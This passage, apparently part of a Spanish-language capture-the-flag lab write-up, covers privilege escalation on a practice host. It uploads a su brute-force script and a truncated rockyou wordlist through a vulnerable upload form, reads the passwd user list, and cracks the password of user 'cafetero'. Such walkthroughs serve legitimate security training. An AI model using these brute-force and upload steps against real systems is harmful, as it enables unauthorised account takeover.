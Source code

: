 **Hallazgos Clave:**
	No encontramos nada critico en el sistema,

### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Realizamos un ataque de fuerza bruta a los usuarios del sistema.
Para ello nos transeferimos dos herramientas a la maquina victima, Nos copiamos estas herramientas en nuestro directorio actual de trabajo
```bash
cp /usr/share/wordlists/rockyou.txt .
cp /usr/bin/Sudo_BruteForce/Linux-Su-Force.sh .
```

Ahora nos montamos un servidor con **python**
```bash
python3 -m http.server 80
```

Con el usuario: **( www-data )** en el directorio: **( /tmp )** ya que tiene capacidad de escritura:
Realizamos la peticio para transferirnos las herramientas
**Nota** Descartamos este tipo de subida ya que no esta instalado el comando: **( curl | wget )** en el sistema
Lo que aremos es intentar subirlos desde la web que es vulnerable a subida de archvos
Logramos subir el scripit de sh: **( Linux-Su-Force.sh )** pero el diccionario rockyou es muy grande para poder subirlo asi que lo recortaremos:
**( xcp )** es un alias del comando: **( xclip -sel clip )**
```bash
cat rockyou.txt | head -n 300 | xcp
```

Despues creamos el archivo: **( rockyou_short.txt )** y si que nos ha dejado subirlo en esta ruta del sistema
```bash
/var/www/dev.hidden.lab/uploads
```

Procedemos a ejecutar la herramienta de la siguiente manera:
```bash
chmod +x Linux-Su-Force.sh
```

Revisando los usuarios del sistema tenemos:
```bash
root:x:0:0:root:/root:/bin/bash
cafetero:x:1000:1000::/home/cafetero:/bin/sh
john:x:1001:1001::/home/john:/bin/sh
bobby:x:1002:1002::/home/bobby:/bin/sh
```

Iniciaremos por el usuario: **Cafetero**
```bash
bash Linux-Su-Force.sh cafetero rockyou_short.txt
```

Tenemos la contrasena del usuario **Cafetero**
```bash
Contraseña encontrada para el usuario cafetero: 123123
```
